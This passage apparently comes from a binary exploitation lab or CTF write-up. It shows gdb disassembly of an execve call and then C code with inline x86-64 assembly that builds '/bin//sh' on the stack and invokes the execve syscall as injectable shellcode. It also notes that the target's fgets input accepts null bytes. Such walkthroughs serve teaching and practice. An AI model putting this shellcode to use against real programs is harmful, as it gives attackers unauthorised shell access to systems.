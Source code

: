 ```
=> 0x55555555468e <main+4>:	mov    edx,0x0
   0x555555554693 <main+9>:	mov    esi,0x0
   0x555555554698 <main+14>:	lea    rdi,[rip+0x95]        # 0x555555554734
   0x55555555469f <main+21>:	call   0x555555554550 <execve@plt>
   0x5555555546a4 <main+26>:	mov    edi,0x0
   0x5555555546a9 <main+31>:	call   0x555555554560 <exit@plt>
```

Then modified that shellcode to put "/bin/sh" on the stack and get a pointer to it. First I verified that my input buffer can take null bytes; the program uses `fgets`, so my shellcode can contain null bytes. Here's the assembly language called from C:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int main(){
    __asm__("mov $0x0, %rdx;"
            "mov $0x0, %rsi;"
            "push $0x0;"
            "mov $0x68732f2f6e69622f, %rax;"
            "push %rax;"
            "mov %rsp, %rdi;"
            "mov $0x3b, %rax;"
            "syscall");
    exit(0);
}
```

Writing that program reminded me that I can't push a 64-bit immediate value in `x86-64` assembly language, only a 32-bit immediate. So, I first have to move an immediate into a register and then push the register. Then I got the machine code for that assembly language:

![./shellcode_generation.png](./shellcode_generation.png)
